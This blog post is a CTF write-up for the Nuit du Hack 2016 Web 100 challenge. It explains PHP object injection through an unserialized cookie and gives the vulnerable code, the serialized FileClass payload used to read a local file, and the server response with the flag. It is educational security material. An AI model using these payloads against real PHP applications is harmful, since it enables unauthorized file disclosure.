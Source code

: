 ```yaml
---
author: AnirudhAnand
layout: post
title: PHP object Injection via Cookie unserialize() - Nuit du hack CTF Web 100 writeup
categories:
- ctf
summary: Reading local files with PHP object Injection via Cookie unserialize() (Nuit du Hack 2016 web 10 writeup)
---
```


After a small break, I decided to participate in CTFs again and I am extremely happy about it. Nuit du CTF 2016 was a good one with couple of nice challenges ! Lets start with Web 100.

We are greeted with a sign up page where we can input a username and age. Then it took us onto a login page where we can enter the username and it logs us in. All the input fields are clean (no injections of any type was possible). But there was an interesting cookie named `cook` with a value `Tzo0OiJVc2VyIjoyOntzOjM6ImFnZSI7aToxMDtzOjQ6Im5hbWUiO3M6MzoibG9sIjt9` which looked really suspicious ! Base64 decoding the value gives the result `O:4:"User":2:{s:3:"age";i:10;s:4:"name";s:3:"lol";}`. That looks pretty much like serialized data. So probably to check the requests, they will be unserializing the cookies which could be vulnerable.

But in order for a successful attack, we need to get the class name so that we can use it to construct a proper payload. So I started digging if there is a way we can get the source code and it took sometime to find out there was a **/git/** directory. Cloning the git and resetting to the HEAD (`git reset --hard HEAD`) I got the files needed. It contains 3 major files named **userclass.php**, **fileclasse.php** and **ufhkistgfj.php**. The latter file contains the flag (in the server) which we should read. The fileclasse.php looks very interesting:

{%highlight php lineos %}
<?php
class FileClass
{

	public $filename = 'error.log';

	public function __toString()
	{
		return file_get_contents($this->filename);
	}
}
?>
{%endhighlight%}

So essentially it reads the files for us which is exactly what we want. Lets construct the serialized data:

{%highlight php lineos %}
<?php

require("./fileclasse.php");
$foo = new User();

file_put_contents("./serialized.txt", serialize($foo));

?>
{%endhighlight%}

Now the contents inside the file **serialized.txt** will look like this: `O:9:"FileClass":1:{s:8:"filename";s:9:"error.log";}`. We want to read the file named `ufhkistgfj.php`. So lets modify the payload a bit so that it can read ufhkistgfj.php which looks like this: `O:9:"FileClass":1:{s:8:"filename";s:14:"ufhkistgfj.php";}`. Now lets base64 encode it and sent it through cookies. We can get the flag in the response !!

For those who have no idea about **unserialize()** vulnerabilities, read on:

## (de)serialize():

serialize() basically converts an object into a string. So you can guess what unserialize does (it converts back serialized data into objects). When user controlled data passes through unserialize() without sanitization, it can lead to various vulnerabilities from reading local files to remote code execution. For a successful exploitation, 2 conditions has to be met:

1. All classes used for the attack should be declared and imported properly.
2. The application must have a class which implements a PHP magic method (\__wakeup(), \__sleep(), __toString() etc..)

The above conditions are satisfied in our cases (The class we need is `FileClass` which is already defnined and it contains a magic function \__toString). Let us take the above example and try to understand (reading arbitrary files).There is a user class called "Users" defined in userclass.php:

{%highlight php lineos %}
<?php
class User
{
	// Class data

	public  $age = 0;
	public  $name = '';

	// Allow object to be used as a String

	public function __toString()
	{
		return 'Hello ' . $this->name . ' you have ' . $this->age . ' years old. <br />';
	}
}

?>
{%endhighlight%}

This class is imported to **index.php** and using the incoming data from the user, it creates a serialized cookie string:

{%highlight php lineos %}
<?php
$form2=false;
    if (isset($_POST["name"]) && isset($_POST["age"]) && !empty($_POST['name']) && !empty($_POST['age'])) {
    	$form = false;
    	$name=$_POST['name'];
    	$age=$_POST['age'];
    	$a = new User();
    	$a->age = $age;
    	$a->name = $name;
    	$form2=true;
setcookie("cook", base64_encode(serialize($a)), time()+3600, "/","", 0);
            } else {
                $form = true;
                $message = 'Put your name & age please.';
            }
{%endhighlight%}

So basically a new object named `a` is created using which they set the age and name attributes from the incoming user input data. Then the variable is serialized() and is set as cookie with 1 hour expiry. The serialized data looks like this:


`O:4:"User":2:{s:3:"age";i:10;s:4:"name";s:3:"lol";}`

`O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>};`


Now lets look into **result.php** where `unserialize($_COOKIE['cook'])` happens:

{%highlight php lineos %}
<?php
include('./userclass.php');
include('./fileclasse.php');
session_start();
if (isset($_COOKIE["cook"]) && !empty($_COOKIE["cook"])){	 
     	   $obj = unserialize(base64_decode($_COOKIE['cook']));

	   ob_start();
	   echo $obj;

           $ff = $obj->name;
     	}
     	if(isset($_POST["name_2"]) && !empty($_POST['name_2']) && $ff==$_POST['name_2'])
     	{   
?>
{%endhighlight%}

You can see that the cookie gets unserialize() and saved into a variable (now object) called `$obj`. It is also getting reflected into the output which means if we can get it to read files, it will  automatically echo us the file contents. Here it is important to note that they are also importing `fileclasse.php` which basically reads **error.log**. But since we can send serialized data via cookies, we will change the cookie data to read files using the `fileclasse.php`. So lets write a simple script which serializes the data for us using fileclasse.php:

{%highlight php lineos %}
<?php
require("./fileclasse.php");
$foo = new FileClass();
file_put_contents("./serialized.txt", serialize($foo));
?>
{%endhighlight%}

Running the above script will return us the string `O:9:"FileClass":1:{s:8:"filename";s:9:"error.log";}` but we want to read `ufhkistgfj.php` and not error.log. So simply modify the serialized data to the filename we want and make sure you change the length accordingly. So final payload becomes: `O:9:"FileClass":1:{s:8:"filename";s:14:"ufhkistgfj.php";}`. Lets Base64 encode it and place it as the cookie value. Refresh the page (Best to use burpsuite to see the response) and in the response you can get the contents of the file.

```
HTTP/1.1 302 Found
Date: Sun, 03 Apr 2016 08:18:57 GMT
Server: Apache/2.4.10 (Debian) PHP/5.6.19
X-Powered-By: PHP/5.6.19
Expires: Tue, 01 Jan 1971 02:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Pragma: no-cache
location: index.php
Content-Length: 166
Content-Type: text/html; charset=UTF-8

<?php

  if($_COOKIE["cook"]==Tzo5OiJGaWxlQ2xhc3MiOjE6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6InVmaGtpc3RnZmoucGhwIjt9){
 echo "NDH[bsnae6PcNyrWZ82Q8v6pfJ6C6HG433L6]";
 }
?>

```
You can see the file content in the response !

## References:
These are some of the awesome references you can use to learn more about PHP object Injection and unserialize():

1. [Practical PHP Object Injection ](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf)
2. [Remote code execution via PHP [Unserialize]](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/)
